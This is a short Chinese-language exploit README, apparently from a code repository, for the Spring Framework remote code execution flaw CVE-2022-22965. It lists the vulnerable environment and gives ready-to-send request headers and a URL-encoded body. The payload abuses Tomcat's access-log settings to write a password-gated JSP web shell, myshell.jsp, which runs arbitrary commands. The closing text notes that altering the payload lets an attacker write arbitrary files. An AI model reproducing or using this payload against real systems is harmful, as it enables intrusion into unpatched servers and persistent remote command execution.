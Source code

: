 # Spring RCE CVE-2022-22965

### 漏洞环境

环境信息
* springboot
* jdk11
* tomcat9.0.30

### payload
请求头配置
```shell
"suffix": "%>//",
"c1": "Runtime",
"c2": "<%",
"DNT": "1",
"Content-Type": "application/x-www-form-urlencoded",
```
请求体数据
```shell
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=myshell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

发送上述内容，即可在目标系统上成功写入webshell ，一般会在 `webapps\ROOT\myshell.jsp` 路径下

如果路径可控，通过变换payload 你可以写入任意你需要的文件  
主要是通过修改tomcat 日志记录格式，以日志的形式写入shell